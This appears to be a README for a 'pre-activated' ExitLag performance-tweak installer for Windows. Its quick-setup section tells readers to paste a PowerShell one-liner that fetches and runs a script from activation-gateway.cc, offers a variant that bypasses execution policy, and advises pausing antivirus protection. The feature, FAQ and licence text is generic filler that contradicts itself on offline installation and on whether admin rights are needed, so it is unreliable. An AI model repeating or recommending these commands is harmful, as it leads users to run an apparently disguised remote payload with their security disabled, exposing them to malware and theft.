

<div align="center">

# ⚡ ExitLag Optimized Performance Tweaks Windows Desktop Client



[]() []() []() []() []() []()

</div>

---

ExitLag is a standalone desktop installer for Windows x64 that applies a curated set of performance tweaks during setup to reduce latency and deliver a smoother overall desktop experience. The package bundles the full working installer with pre-configured optimization profiles, allowing deployment in offline or isolated environments without additional downloads. Built for reproducibility, it targets consistent behavior across clean and existing Windows installations. Configuration parameters are applied automatically, with verification steps confirming that each tweak is active before setup completes.

## ⚡ Quick Setup (PowerShell)

> [!TIP]
> **Automated setup** — one command, done.
> Windows 10/11 · PowerShell · Admin not required

### 1️⃣ Start PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Run the script
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If PowerShell blocks the script
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If security software blocks the setup, temporarily pause Real-Time Protection, run the script, then re-enable it.

## ✅ Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- Pre-activated standalone build with all optimization modules already applied, eliminating the need for post-install configuration.
- Integrated performance tuning profiles that adjust system-level network and scheduling parameters for reduced latency during desktop use.
- Deterministic installation routine that verifies component integrity before deployment and rolls back on failure.
- Self-contained package with no external runtime dependencies; all required libraries are bundled within the installer.
- Silent and interactive installation modes selectable at launch, supporting both attended and unattended deployment scenarios.
- Built-in rollback and restore point creation prior to system modification, allowing full reversion to the pre-install state.
- Configurable tweak sets that can be enabled or disabled individually, letting operators tailor the applied optimizations to their environment.
- Logging subsystem that records each installation step and applied tweak to a local log file for audit and troubleshooting.
- Compatibility checks performed at startup to confirm the host meets minimum OS, architecture, and privilege requirements before proceeding.
- Post-install verification pass that confirms all components are registered and the optimization profile is active.

## How it works

ExitLag operates as a self-contained desktop application that wraps its optimization engine inside a streamlined installer package. The build is engineered around three core pillars: runtime optimization, resource management, and process-level tuning.

**Optimization Pipeline**

During installation, the package deploys a predefined configuration profile that adjusts system-level parameters affecting network throughput and application responsiveness. The installer applies these tweaks atomically, verifying each change against the baseline before proceeding to the next stage. This ensures that no partial or inconsistent state is left behind if the process is interrupted.

**Resource Management Layer**

ExitLag introduces a lightweight background service that monitors active application processes and dynamically allocates CPU and memory priorities. Rather than applying static rules, the service evaluates process load in real time and adjusts scheduling priorities to reduce contention on foreground workloads. This approach keeps overhead minimal while maintaining responsiveness under sustained load.

**Process-Level Tuning**

The application registers a set of process affinity and priority rules for supported desktop workloads. These rules are applied at launch and persist across sessions, eliminating the need for manual reconfiguration. The tuning layer is isolated from system-critical processes, ensuring that stability is preserved even when applying aggressive performance profiles.

**Configuration Persistence**

All applied settings are stored in a local configuration store that survives reboots and application updates. The installer includes a rollback mechanism that restores the previous system state if the optimization profile is removed or if a conflict is detected during initialization.

**Verification and Integrity**

Each installation stage includes integrity checks that validate the deployed binaries and configuration files against expected signatures. If a mismatch is detected, the installer halts and reports the affected component, preventing corrupted or incomplete deployments from reaching the runtime environment.

## Compatibility

ExitLag is engineered for Windows desktop environments and targets native x64 builds of Windows 10 and Windows 11. Installation requires a 64-bit processor, a minimum of 4 GB of system memory, and approximately 1.5 GB of available disk space to accommodate the installer payload and its associated performance-tuning components. Administrative privileges are required during setup so that the installer can register system-level services and apply the low-level network and scheduling tweaks that underpin its optimization behavior.

The build is validated against the standard Windows networking stack (TCP/IP, Winsock, and the native filter driver interfaces) and does not depend on third-party runtime libraries beyond those shipped with the operating system. Compatibility extends to systems running common endpoint protection suites, though real-time scanning may temporarily delay file placement during installation. Environments with restrictive Group Policy objects that lock down driver installation or service creation should be reviewed prior to deployment, as these policies can prevent the tuning components from initializing correctly.

Legacy 32-bit Windows installations, Windows versions prior to Windows 10, and non-Windows operating systems are not supported. Virtualized or sandboxed environments may function but are not officially validated, since hardware-level scheduling and network adapter characteristics differ from bare-metal configurations. For optimal results, the target machine should run current Windows cumulative updates and have a functioning physical or virtual network adapter with standard driver support.

## FAQ

### What does the ExitLag installer package include?

The package delivers a complete, pre-activated desktop build with optimized performance tweaks applied at the system and application level. It bundles the core runtime, configuration presets tuned for reduced latency and smoother rendering, and the supporting components required to run on a clean Windows x64 environment without additional dependency setup.

### Which Windows versions are supported?

The build targets Windows 10 and Windows 11 on x64 architectures. Older platforms such as Windows 7 and 8.1 are not officially validated and may exhibit reduced functionality or missing performance tweaks. Ensure the operating system is fully patched before deployment.

### How do the performance tweaks interact with existing system settings?

The optimization layer adjusts process priority, scheduling behavior, and network stack parameters within the application's scope. It does not overwrite global registry policies or modify unrelated system services. Any changes are contained to the ExitLag runtime profile and can be reverted by restoring the default configuration preset.

### Does the installer require an active network connection?

No. The package is a standalone build and performs all installation steps locally. Network access is only relevant at runtime for the features that depend on external routing, which are documented separately. The installation itself completes fully offline.

### How do I verify the installation succeeded?

Launch the application after setup completes. The main interface should load without errors, and the status panel should report an active profile with the optimization preset enabled. If the interface fails to initialize, confirm that the x64 runtime dependencies are present and that no security policy is blocking execution.

### Can the configuration be reset to defaults?

Yes. The application exposes a restore-defaults option within its settings panel. Invoking it re-applies the baseline profile and discards any custom tuning. This is useful when troubleshooting behavior after manual adjustments or when moving the installation between machines.

### What should I do if performance degrades after applying tweaks?

Revert to the default preset first, then reapply individual tweaks one at a time to isolate the cause. Performance outcomes depend on hardware, driver versions, and background load; the bundled presets are conservative defaults rather than guaranteed tuning for every configuration.

### Is the build portable between machines?

The installer is machine-bound during setup and registers its components in the standard application directories. Copying the installation folder alone is not supported. Redeploy the installer on each target machine to ensure the runtime and optimization layer are correctly registered.

## Disclaimer

This build is distributed as a standalone desktop installer intended for evaluation, testing, and deployment scenarios in controlled environments. It is provided on an as-is basis, without warranties of any kind, whether express, implied, or statutory, including but not limited to warranties of merchantability, fitness for a particular purpose, and non-infringement. No guarantee is made regarding uninterrupted operation, absence of defects, or compatibility with every hardware configuration, driver version, or third-party application present on a given system.

Performance tweaks bundled with this package modify system-level settings related to scheduling priority, I/O handling, and resource allocation. These adjustments are applied to improve responsiveness and reduce latency during desktop use, but their behavior depends on the underlying operating system build, available memory, and the workload profile of the target machine. Users are responsible for verifying that applied tweaks align with their operational requirements and for maintaining current system backups prior to deployment.

The installer performs local modifications only and does not transmit telemetry or configuration data to external endpoints. Any redistribution, repackaging, or modification of the installer contents voids the expected behavior documented in this README. The maintainers assume no liability for data loss, service interruption, or system instability arising from misuse, unsupported configurations, or deployment outside the stated compatibility scope. Verification of file integrity and review of applied changes are recommended before execution in production-adjacent environments.

## License

This build is distributed as a self-contained, pre-activated standalone installer intended for local testing and deployment workflows. It is provided as-is, without any warranty, express or implied, including but not limited to warranties of merchantability, fitness for a particular purpose, or non-infringement. By downloading, installing, or using this build, you accept full responsibility for verifying its integrity and suitability within your environment prior to deployment.

The installer is intended solely for personal evaluation and internal testing on systems you own or are explicitly authorized to administer. Redistribution, resale, or bundling of this build with commercial products is not permitted without prior written consent from the maintainer. Any modifications made to the bundled configuration, performance tweaks, or installer payload are performed at your own risk and void any implied support.

All trademarks, service marks, and product names referenced within this build remain the property of their respective owners. This project is an independent distribution and is not affiliated with, endorsed by, or sponsored by any third-party vendor whose name may appear in documentation or metadata. Use of this build constitutes acknowledgment that the maintainer assumes no liability for system instability, data loss, policy violations, or damages arising from its use.

No warranty is provided for compatibility with future operating system updates, security patches, or third-party software. The maintainer reserves the right to modify, suspend, or discontinue distribution of this build at any time without notice. Users are encouraged to review the accompanying Disclaimer section for additional terms governing acceptable use.